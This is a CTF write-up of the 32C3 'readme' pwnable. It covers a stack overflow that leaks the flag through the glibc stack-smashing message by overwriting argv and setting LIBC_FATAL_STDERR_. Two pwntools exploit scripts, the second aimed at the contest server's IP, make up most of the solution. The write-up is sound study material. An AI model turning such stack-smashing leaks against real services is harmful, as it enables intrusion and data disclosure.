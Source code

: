 ```yaml
---
layout: post
title: 32c3 Readme
category: ctf
author: Kokjo
tags: ctf, 32c3, pwnable, glibc
---
```


This is a write-up of the readme challenge from the 32c3 CTF


## The Challenge

This was a pwnable binary with with the flag baked into it, which you could see if you ran:
{% highlight bash %}
$ strings readme.bin  | grep 32C3
32C3_TheServerHasTheFlagHere...
{% endhighlight %}

The flag is located at `0x600d20` in the `.data` section.

The challenge was very simple, it was a service witch `gets` your name onto the stack,
and then it asks you to over write the flag at `0x600d20`


## The Solution


First of all the flag is mapped into memory twice, because of how elf works it is also located in read-only memory at `0x400d20` but only the flag in the `.data` section gets overwritten.

So locally we could get it printed simply by smashing our stack all the way upto `argv`,
and then let `_stack_chk_fail` print it for us.

{% highlight python %}
from pwn import *

flag_addr = 0x400d20

r = process("./readme.bin")
r.recvuntil("What's your name? ")
r.sendline(p64(flag_addr)*80)
r.sendline("THIS OVERWRITES THE FLAG")
r.recvuntil("*** stack smashing detected ***: ")
log.info("The flag is: %s" % r.recvuntil(" ").strip())
{% endhighlight %}

which prints when executed:

{% highlight bash %}
$ python doit.py
[+] Starting program './readme.bin': Done
[*] The flag is: 32C3_TheServerHasTheFlagHere...
[*] Program './readme.bin' stopped with exit code -6
{% endhighlight %}

however this does not work remotely, this is becuase `_stack_chk_fail` calls `__fortify_fail` which calls `__lib_message` which does this:

{% highlight c %}
void
__libc_message (int do_abort, const char *fmt, ...)
{
  va_list ap; 
  int fd = -1; 

  va_start (ap, fmt);

  /* Open a descriptor for /dev/tty unless the user explicitly
     requests errors on standard error.  */
  const char *on_2 = __libc_secure_getenv ("LIBC_FATAL_STDERR_");
  if (on_2 == NULL || *on_2 == '\0')
    fd = open_not_cancel_2 (_PATH_TTY, O_RDWR | O_NOCTTY | O_NDELAY);

  if (fd == -1) 
    fd = STDERR_FILENO;

  // then prints stuff and crashes
}
{% endhighlight %}

which means that we only need to set `LIBC_FATAL_STDERR_` and the flag will get printed over `stderr` instead of `/dev/tty`.

So this is the final exploit:
{% highlight python %}
from pwn import *

env_addr = 0x600d20
flag_addr = 0x400d20

r = remote("136.243.194.62", 1024)
r.recvuntil("What's your name? ")
r.sendline(p64(flag_addr)*80 + p64(env_addr)*20)
r.sendline("LIBC_FATAL_STDERR_=1")
r.recvuntil("*** stack smashing detected ***: ")
log.info("The flag is: %s" % r.recvuntil(" ").strip())
{% endhighlight %}

and we then finally have the flag:

{% highlight bash %}
$ python doit.py
[+] Opening connection to 136.243.194.62 on port 1024: Done
[*] The flag is: 32C3_ELF_caN_b3_pre7ty_we!rd...
[*] Closed connection to 136.243.194.62 port 1024
{% endhighlight %}

